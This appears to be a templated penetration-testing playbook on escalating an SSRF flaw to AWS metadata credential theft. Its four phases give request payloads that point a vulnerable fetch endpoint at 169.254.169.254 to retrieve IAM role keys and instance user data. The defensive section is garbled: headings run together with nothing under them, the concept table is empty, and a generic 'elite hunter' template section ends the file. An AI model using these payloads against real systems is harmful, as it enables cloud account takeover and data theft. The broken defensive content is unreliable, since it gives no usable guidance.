

# AWS IMDS SSRF Exploitation

## When to Use
- During a penetration test of a web application hosted on AWS EC2 or ECS that exhibits SSRF vulnerabilities.
- To demonstrate impact by escalating from a web vulnerability to AWS cloud infrastructure compromise via IAM credential theft.


## Prerequisites
- Authorized scope and rules of engagement for the target environment
- Appropriate tools installed on the attack/analysis platform
- Understanding of the target technology stack and architecture
- Documentation template ready for findings and evidence capture

## Workflow

### Phase 1: Identifying the SSRF

```http
# Concept: Test the target application for SSRF GET /fetch_url?url=http://example.com HTTP/1.1
Host: target.app
```

### Phase 2: Querying AWS IMDSv1

```http
# GET /fetch_url?url=http://169.254.169.254/latest/meta-data/ HTTP/1.1
Host: target.app
```

### Phase 3: Extracting IAM Roles and Credentials

```http
# GET /fetch_url?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ HTTP/1.1

# GET /fetch_url?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/WebServerRole HTTP/1.1
```
*(The response will contain a JSON object with `AccessKeyId`, `SecretAccessKey`, and `Token`)*

### Phase 4: Accessing User Data

```http
# # GET /fetch_url?url=http://169.254.169.254/latest/user-data HTTP/1.1
```
*(User Data often contains sensitive initialization scripts, database passwords, or API keys).*

#### Decision Point 🔀


## 🔵 Blue Team Detection & Defense
- **Migrate to IMDSv2**: **Network Restrictions**: **Least Privilege IAM**: Key Concepts
| Concept | Description |
|---------|-------------|
| 169.254.169.254 | |
| IMDSv1 vs IMDSv2 | |


## Output Format
```
Aws Metadata Ssrf — Assessment Report
============================================================
Target: [Target identifier]
Assessor: [Operator name]
Date: [Assessment date]
Scope: [Authorized scope]
MITRE ATT&CK: [Relevant technique IDs]

Findings Summary:
  [Finding 1]: [Severity] — [Brief description]
  [Finding 2]: [Severity] — [Brief description]

Detailed Results:
  Phase 1: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

  Phase 2: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

Risk Rating: [Critical/High/Medium/Low/Informational]
Recommendations:
  1. [Immediate remediation step]
  2. [Long-term hardening measure]
  3. [Monitoring/detection improvement]
```

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)
> The Architect Mindset identifies misconfigurations spanning multiple domains.
- Chain info-leaks with SSRF/RCE.
- Maintain absolute OPSEC during active engagement.

## 🏁 Execution Phase (Steps to Reproduce)
1. Perform target reconnaissance.
2. Formulate payload based on endpoints.
3. Execute the exploit and capture exfiltrated data.

**Severity Profile:** High (CVSS: 8.5)

## References
- AWS Docs: [Instance Metadata Service](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)
- Rhino Security Labs: [AWS IAM Privilege Escalation](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
